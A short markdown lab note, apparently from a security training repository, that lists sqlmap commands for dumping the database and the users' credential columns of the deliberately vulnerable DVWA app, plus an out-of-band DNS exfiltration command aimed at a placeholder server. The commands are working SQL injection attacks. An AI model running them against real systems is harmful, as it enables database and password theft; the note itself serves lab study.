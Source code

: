 # 03 - Data Exfiltration

#sqli #sqlmap #data-exfiltration

### 3.1 - Dump the whole database

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent -D dvwa --dump-all
```

### 3.2 - Dump the specific tables and columns

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent -D dvwa -T users -C user,password --dump
```

### 3.3 - DNS Exfiltration (Out-of-band SQL Injection)

TODO: Demonstrate DNS exfiltration via sqlmap

```
$ sudo sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dns-domain=<dns_server_IP> -D dvwa
```

## References

- [SQLmap – Enumeration of Databases & Users from Vulnerable Web Forms](https://kalilinuxtutorials.com/sqlmap2/)